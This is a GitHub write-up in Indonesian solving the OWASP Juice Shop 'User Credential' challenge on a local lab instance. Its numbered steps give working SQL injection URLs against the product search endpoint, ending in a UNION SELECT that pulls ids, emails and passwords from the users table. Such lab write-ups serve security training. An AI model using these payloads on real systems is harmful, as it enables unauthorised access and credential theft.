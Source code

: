 # User Credential
Pada tantangan ini, tujuan kita adalah memperoleh daftar yang berisi seluruh kredensial pengguna dengan teknik SQL Injection. Celah yang dipakai masih sama seperti yang sudah dimanfaatkan pada challenge ke-4.
Endpoint yang digunakan juga mirip dengan sebelumnya, yaitu `/rest/products/search?q=`. Hanya saja, kali ini kita menyisipkan perintah `UNION SELECT` yang telah dimodifikasi agar bisa menarik data langsung dari tabel pengguna, menggantikan payload `sqlite_manage`.

## Referensi

[Juice Shop – Injection Challenge](https://juice-shop.herokuapp.com/#/score-board?categories=Injection&showDisabledChallenges=false)

## Bukti Pengerjaan

<img width="1919" height="962" alt="Screenshot 2025-09-11 141743" src="https://github.com/user-attachments/assets/08492737-9d58-4456-8c35-2d38dde5a198" />

### Langkah-langkah

<img width="442" height="188" alt="Screenshot 2025-09-11 131530" src="https://github.com/user-attachments/assets/f8770188-3423-4f9b-8611-f6e5dcfe47a3" />

1. Pada challenge ini kita diminta mengekstrak **daftar kredensial pengguna** dengan memanfaatkan celah SQL Injection.

   ```sh
   http://localhost:3000/rest/products/search?q='
   ```

2. Endpoint pencarian lebih mudah dieksploitasi dibandingkan form login, sehingga kita gunakan parameter `q` untuk injection.

   ```sh
   http://localhost:3000/rest/products/search?q=')) UNION SELECT 1,2,3,4,5,6,7,8,9 FROM users--
   ```

   <img width="1919" height="964" alt="Screenshot 2025-09-11 141803" src="https://github.com/user-attachments/assets/bcc6b349-0e93-448d-a54a-a58f505ae1bf" />

3. Setelah terhubung, kita lakukan `UNION SELECT` untuk mengambil data dari tabel users.

   ```sh
   http://localhost:3000/rest/products/search?q=')) UNION SELECT id,email,password,4,5,6,7,8,9 FROM users--
   ```

   <img width="1919" height="962" alt="Screenshot 2025-09-11 141743" src="https://github.com/user-attachments/assets/1541f0c6-ea6f-4f3a-88f2-334a6fb84f81" />

4. Dengan mengganti kolom dummy menjadi kolom asli dari skema database (seperti `email` dan `password`), daftar kredensial user berhasil ditampilkan.
